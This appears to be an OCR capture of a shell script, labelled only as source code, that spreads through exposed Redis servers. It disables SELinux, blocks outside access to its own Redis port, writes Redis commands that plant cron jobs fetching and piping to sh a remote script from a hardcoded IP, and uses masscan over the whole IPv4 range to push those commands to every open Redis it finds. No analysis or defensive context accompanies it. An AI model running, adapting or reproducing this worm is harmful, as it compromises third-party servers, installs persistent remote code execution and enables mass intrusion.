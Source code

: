 > setenforce 0 2>/dev/null
> 
> ulimit -n 50000
> 
> ulimit -u 50000
> 
> sleep 1
> 
> iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/null
> 
> iptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/null
> 
> sleep 1
> 
> rm -rf .dat .shard .ranges .lan 2>/dev/null
> 
> sleep 1
> 
> echo 'config set dbfilename"backup.db"' > .dat
> 
> echo 'save' >> .dat
> 
> echo 'flushall' >> .dat
> 
> echo 'set backup1"\\n\\n\\n\*/2 \* \* \* \* curl -fsSL http://159.89.190.243/ash.php | sh\\n\\n"' >> .dat
> 
> echo 'set backup2"\\n\\n\\n\*/3 \* \* \* \* wget -q -O- http://159.89.190.243/ash.php | sh\\n\\n"' >> .dat
> 
> echo 'set backup3"\\n\\n\\n\*/4 \* \* \* \* curl -fsSL http://159.89.190.243/ash.php | sh\\n\\n"' >> .dat
> 
> echo 'set backup4"\\n\\n\\n\*/5 \* \* \* \* wget -q -O- http://159.89.190.243/ash.php | sh\\n\\n"' >> .dat
> 
> echo 'config set dir"/var/spool/cron/"' >> .dat
> 
> echo 'config set dbfilename"root"' >> .dat
> 
> echo 'save' >> .dat
> 
> echo 'config set dir"/var/spool/cron/crontabs"' >> .dat
> 
> echo 'save' >> .dat
> 
> sleep 1
> 
> masscan --max-rate 10000 -p6379,6380 --shard $(seq 1 22000 | sort -R | head -n1)/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
> 
> sleep 1
> 
> while read -r h p; do
> 
> cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
> 
> done < .shard
> 
> sleep 1
> 